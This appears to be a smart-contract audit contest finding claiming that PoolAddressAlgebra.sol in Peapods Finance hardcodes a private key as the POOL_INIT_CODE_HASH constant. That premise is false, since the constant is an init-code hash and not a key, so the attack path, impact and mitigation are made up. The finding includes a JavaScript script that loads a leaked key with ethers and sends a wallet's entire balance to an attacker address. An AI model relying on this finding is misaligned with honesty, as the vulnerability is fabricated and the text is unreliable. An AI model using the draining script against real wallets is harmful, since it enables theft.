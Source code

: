 Rhythmic Azure Manatee

High

# An attacker will gain full control via PoolAddressAlgebra leading to unauthorized fund withdrawals

### Summary

https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/contracts/contracts/libraries/PoolAddressAlgebra.sol#L6

A private key is hardcoded in the `PoolAddressAlgebra.sol` contract, which an attacker can easily extract and use to take full control of the associated wallet​. This exposure allows the attacker to drain all funds or execute arbitrary transactions from that wallet on the protocol’s behalf.

### Root Cause

In `PoolAddressAlgebra.sol:6`, the private key is stored in the constant POOL_INIT_CODE_HASH. This means the secret key is embedded in the compiled contract bytecode, making it publicly accessible on-chain​. Anyone can read the blockchain data and obtain this hardcoded key.

### Internal Pre-conditions

1. The vulnerable contract is deployed with the current `POOL_INIT_CODE_HASH` value containing the private key.
2. An attacker is able to retrieve the contract’s on-chain bytecode (e.g. via an Ethereum node or block explorer) and locate the embedded key.

### External Pre-conditions

1. The pool’s wallet (controlled by the exposed private key) holds sufficient funds or valuable assets to motivate an attack.

### Attack Path

1. Extract the key: The attacker fetches the deployed contract’s bytecode and extracts the `POOL_INIT_CODE_HASH` constant value, which is the private key. This can be done using an RPC call like `eth_getCode` or by inspecting the bytecode on a blockchain explorer.
2. Import into wallet: Using the stolen key, the attacker imports it into a wallet or scripting environment (e.g. via web3/ethers libraries) to assume control of the corresponding address.
3. Take over funds: Now acting as the wallet owner, the attacker can transfer out all funds or perform any transactions from the pool’s address (since they possess the wallet’s private key credentials).

### Impact

- The protocol (and its users) would suffer a total loss of all funds held by the affected pool wallet. An attacker with the private key can instantly transfer out or reallocate the assets – in known incidents, wallets have been drained within seconds of key exposure​. Essentially, the attacker gains complete and irreversible control over the wallet and its funds.

### PoC

Below is a pseudocode example demonstrating how an attacker might exploit this issue by extracting the key and using it to withdraw funds:
```js
// Pseudocode: Extract key from contract bytecode and drain funds
const { ethers } = require("ethers");
const provider = new ethers.providers.JsonRpcProvider("<RPC_URL>");

// Address of the deployed PoolAddressAlgebra contract
const contractAddress = "<PoolAddressAlgebra_contract_address>";

// 1. Get the contract's runtime bytecode
const bytecode = await provider.getCode(contractAddress);

// 2. Extract the hardcoded private key (POOL_INIT_CODE_HASH) from the bytecode
// (In practice, one could search the bytecode for the known 32-byte value.)
const leakedKeyHex = "0x<HEX_VALUE_OF_POOL_INIT_CODE_HASH>";  // 32-byte private key in hex

// 3. Import the private key into an ethers Wallet (attacker now controls the pool wallet)
const compromisedWallet = new ethers.Wallet(leakedKeyHex, provider);
console.log("Compromised wallet address:", compromisedWallet.address);

// 4. Use the compromised wallet to send all funds to the attacker's address
const tx = await compromisedWallet.sendTransaction({
  to: "<attacker_address>", 
  value: await provider.getBalance(compromisedWallet.address)  // send all ETH
});
console.log("Funds drained in tx:", tx.hash);
```
This script illustrates that once the constant is obtained, the attacker can create a wallet instance with the private key and then freely transfer assets to their own address.

### Mitigation

1. Do not hardcode private keys: Never store private keys or other secrets directly in smart contract code. Anything on-chain is visible to the public and can be extracted by malicious parties.
2. Use secure key management: Keep keys in environment variables or a secure key management service, and pass them to the contract or application at runtime (or use external signing/oracles) instead of baking them into the contract. This way, the key is not exposed in the bytecode or repository.